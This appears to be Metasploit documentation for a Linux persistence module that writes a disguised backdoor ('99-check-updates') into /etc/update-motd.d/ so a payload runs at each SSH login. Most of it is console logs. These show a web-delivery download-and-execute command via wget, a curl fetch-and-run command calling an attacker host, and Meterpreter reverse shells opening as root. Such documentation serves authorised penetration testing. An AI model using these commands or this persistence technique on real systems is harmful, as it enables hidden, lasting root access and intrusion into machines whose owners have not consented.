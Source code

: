 ## Vulnerable Application

This is a post module that performs a persistence installation on a Linux system using [motd](https://manpages.debian.org/bookworm/manpages/motd.5.en.html).
To trigger the persistence execution, an external event such as a user logging in to the system with SSH is required.

## Verification Steps

1. Start msfconsole
2. Obtain a session on the target machine
3. `use exploit/linux/local/motd_persistence`
4. `set session [session]`
5. `exploit`

## Options

### BACKDOOR_NAME

Specify the name of the file to insert in the motd directory. Defaults to `99-check-updates`

### PAYLOAD_NAME

Name of the payload file if a `cmd` payload is not used. Defaults to a random name

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO oQN8BXNV --no-check-certificate http://111.111.1.111:8181/l; chmod +x oQN8BXNV; ./oQN8BXNV& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:42870) at 2025-02-07 15:40:34 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/tmp) > getuid
Server username: root
(Meterpreter 1)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/motd 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/motd) > exploit
[-] Msf::OptionValidateError One or more options failed to validate: SESSION.
[msf](Jobs:1 Agents:1) exploit(linux/persistence/motd) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/motd) > exploit
[*] Command to run on remote host: curl -so ./rpNzsXNVDsZ http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./rpNzsXNVDsZ;./rpNzsXNVDsZ&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/motd) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /etc/update-motd.d/ is writable
[*] /etc/update-motd.d/99-check-updates written
[+] Payload will be triggered at user login
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250207.4101/ubuntu18desktop.local_20250207.4101.rc
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:48696) at 2025-02-07 15:41:26 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/motd) > sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/) > getuid
Server username: root
```

### Ubuntu 22.04

```
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > use exploit/linux/local/motd_persistence
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/motd_persistence) > set session -1
session => -1
msf6 exploit(linux/local/motd_persistence) > exploit

[*] /etc/update-motd.d/99-check-updates written
msf6 exploit(linux/local/motd_persistence) > 
[*] Sending stage (3045380 bytes) to 172.18.49.39
[*] Meterpreter session 2 opened (172.18.52.45:4444 -> 172.18.49.39:41848) at 2024-09-13 03:59:47 -0400
msf6 exploit(linux/local/motd_persistence) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter > 
```
